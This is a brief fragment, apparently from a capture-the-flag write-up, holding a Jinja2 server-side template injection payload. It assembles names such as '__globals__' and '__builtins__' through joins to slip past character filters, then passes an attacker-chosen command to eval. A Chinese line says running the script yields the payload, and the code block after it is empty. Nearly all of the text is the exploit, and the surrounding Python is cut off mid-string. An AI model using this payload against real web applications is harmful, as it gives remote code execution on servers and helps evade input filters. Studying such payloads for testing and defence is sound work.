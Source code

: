 ```
{% set po=dict(po=a,p=a)|join%}
{% set a=(()|select|string|list)|attr(po)(coun)%}
{% set ini=(a,a,dict(init=a)|join,a,a)|join()%}
{% set glo=(a,a,dict(globals=a)|join,a,a)|join()%}
{% set geti=(a,a,dict(getitem=a)|join,a,a)|join()%}
{% set built=(a,a,dict(builtins=a)|join,a,a)|join()%}
{% set x=(q|attr(ini)|attr(glo)|attr(geti))(built)%}
{% set chr=x.chr%}
{% set cmd='''+fun2(cmd)+'''
%}
{%if x.eval(cmd)%}
abc
{%endif%}
'''
print(url)
```

执行脚本得到payload：

```
```